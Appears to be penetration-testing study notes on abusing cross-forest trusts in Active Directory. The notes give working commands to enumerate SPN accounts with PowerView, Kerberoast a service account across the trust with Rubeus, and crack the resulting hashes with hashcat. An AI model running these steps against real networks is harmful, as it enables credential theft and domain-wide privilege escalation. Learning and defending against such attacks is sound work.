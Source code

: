# Attacking Domain Trusts - Cross-Forest Trust Abuse 🖥️ - From Windows
Kerberos-based attacks—such as **Kerberoasting** and ASREPRoasting—can be executed across domain or forest trusts, depending on the trust direction.
If you're operating within a domain that has an inbound or **bidirectional** trust with another domain or forest, you may be able to leverage that trust to launch attacks in the trusted domain.
In some cases, privilege escalation within your current domain may not be possible. However, you might still be able to request a **Kerberos service ticket (TGS)** for an administrative account in the trusted domain. Once obtained, the ticket hash can be cracked offline, potentially giving you credentials for a user with Domain Admin or Enterprise Admin privileges across both domains—thus giving you a powerful foothold.
### Enumerating accounts in a target domain that have SPNs associated with them Using PowerView:
```powershell
Get-DomainUser -SPN -Domain <TargetDomain> | select SamAccountName
```
<img width="1504" height="250" alt="image" src="https://github.com/user-attachments/assets/2b1e92aa-f4e3-4616-8dfb-30e06c4dcead" />
### Enumerating the mssqlsvc Account
<img width="1657" height="214" alt="image" src="https://github.com/user-attachments/assets/245a75ee-1096-45f8-ac13-d30a16462bc1" />
### Perform a Kerberoasting attack across the trust using Rubeus
```powershell
.\Rubeus.exe kerberoast /domain:DOM.LOCAL /user:mssqlsvc /nowrap
```
<img width="1632" height="370" alt="image" src="https://github.com/user-attachments/assets/64e77fda-8e07-4293-9f20-9edf86448206" />
Copy the Hash on Kali-Machine

### Crack the hashes
```shell
sudo hashcat -m 13100 hash.hash /usr/share/wordlists/rockyou.txt
```


